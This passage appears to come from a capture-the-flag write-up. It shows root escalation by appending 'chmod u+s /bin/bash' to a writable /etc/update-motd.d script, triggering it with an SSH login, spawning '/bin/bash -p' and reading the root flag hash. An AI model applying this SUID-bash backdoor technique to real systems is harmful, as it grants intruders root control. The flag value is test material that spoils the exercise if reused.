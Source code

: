 We can modify any of these files to add either a reverse shell or create a SUID binary `, let's for example modify the `99-esm` file:

```
chmod u+s /bin/bash
```

```
cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

chmod u+s /bin/bash
```

Now, we need to log into ssh again to trigger the payload:

```
ssh james@IP

Once logged use: /bin/bash -p
```

We can see this:

![](images/Pasted%20image%2020250407143046.png)

There we go, we got root, let's read final flag:

```
bash-4.3# cat /root/root.txt
3c8c3d0fe758c320d158e32f68fabf4b
```


![](images/Pasted%20image%2020250407143141.png)

